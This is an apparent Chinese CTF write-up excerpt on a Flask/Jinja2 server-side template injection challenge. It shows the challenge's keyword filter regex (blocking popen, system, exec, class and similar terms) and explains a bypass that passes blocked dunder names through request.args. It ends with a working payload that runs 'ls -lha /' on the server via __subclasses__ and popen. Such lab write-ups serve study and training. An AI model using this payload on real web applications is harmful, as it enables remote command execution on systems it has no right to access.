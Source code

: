 
去掉name变量，让网页报错


![alt text](assets/20240615-writeup/image-2.png)

查看报错函数，发现有过滤

```python 
if not re.findall(r"'|_|\lx|[lu|{{|\+|attr|\.|class|init|globals|popen|system|env|exec|flag",name):
```

![alt text](assets/20240615-writeup/image-3.png)

但是该函数只过滤了name变量中的敏感字，所以可以使用request方法，将带有下划线的敏感词传入，例如_class_

对于`.`的过滤，使用中括号形式替代

尝试执行ls：

```
/greetings?name={%print(""[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()[133][request["args"]["d"]][request["args"]["e"]][request["args"]["f"]](request["args"]["aa"])[request["args"]["g"]]())%}&a=__class__&b=__bases__&c=__subclasses__&d=__init__&e=__globals__&f=popen&g=read&aa=ls -lha /

```
成功，证明可行

![alt text](assets/20240615-writeup/image-8.png)
